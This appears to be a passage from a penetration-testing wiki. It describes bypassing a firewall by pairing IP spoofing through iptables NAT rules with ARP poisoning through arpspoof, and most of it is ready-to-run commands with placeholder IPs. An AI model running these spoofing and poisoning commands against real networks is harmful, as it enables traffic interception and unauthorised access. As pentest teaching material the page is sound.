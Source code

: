 IP spoofing 

This part is done using [iptables](https://www.djack.com.pl/Suse9hlp/ch26s03.html) NAT rules.


```
# As refered to above, IP forwarding need to be enabled otherwise attacker's machine will drop the packets not containing its IP address as destination
sysctl net.ipv4.ip_forward=1
# Change the source port range of the attacker host, this is only to make sure port range size is the same as the one of the spoofed traffic (20000-30000)
echo "40000 50000" > /proc/sys/net/ipv4/ip_local_port_range 
# Spoof the source IP address of the outgoing traffic and modify the source ports to tag the spoofed traffic.
iptables -t nat -A POSTROUTING -s "ATTACKER_IP"/32 -o "NETWORK_INTERFACE" -p tcp -j SNAT --to-source "TARGET_IP":20000-30000
# Identify the response to the spoofed traffic and change destination IP of the target to the one of the attacker's host
iptables -t nat -A PREROUTING -d "TARGET_IP"/32 -i "NETWORK_INTERFACE" -p tcp -m tcp --dport 20000:30000 -j DNAT --to-destination "ATTACKER_IP":40000-50000

```


ARP spoofing (MITM)\
To perform the ARP spoofing part, [arpspoof](https://github.com/ickerwx/arpspoof) (python2) is used. Both the DNS server and the firewall are poisoned ([proxy mode](arp-poisoning.md#proxy-vs.-rerouting)). 


```
# Launch the ARP poisoning
arpspoof -i "NETWORK_INTERFACE" -t "TARGET_IP" -r "FIREWALL_IP"

```


For more details about the attack, refer to the ["Combining ARP poisoning and IP spoofing to bypass firewalls" article](https://idafchev.github.io/pentest/2019/10/28/combining_arp_poisoning_and_ip_spoofing_to_bypass_firewalls.html) written by [Llia Dafchev](https://twitter.com/IliyaDafchev).

_Nota bene:_ there are different ways of populating the NAT table regarding outgoing traffic IP translation; through the `POSTROUTING` chain, applied on all outgoing packets:

1. `MASQUERADE`_:_ this will indicate that the source IP of outgoing packets should be changed to the one of the network interface specified in `-o` argument.


```bash
iptables -t nat -A POSTROUTING -o "NETWORK_INTERFACE" -j MASQUERADE
```


2. `SNAT`_:_ this will indicate that the source IP of outgoing packets should be changed to the one specified in `--to` argument. Below is an example different from the one used in the attack descried above, where decision on the NAT rule to apply is based on destination (`-d` option) rather than the source (`-s` option).


```bash
iptables -t nat -I POSTROUTING -d "TARGET_IP" -j SNAT --to "MODIFIED_SOURCE_IP"
```

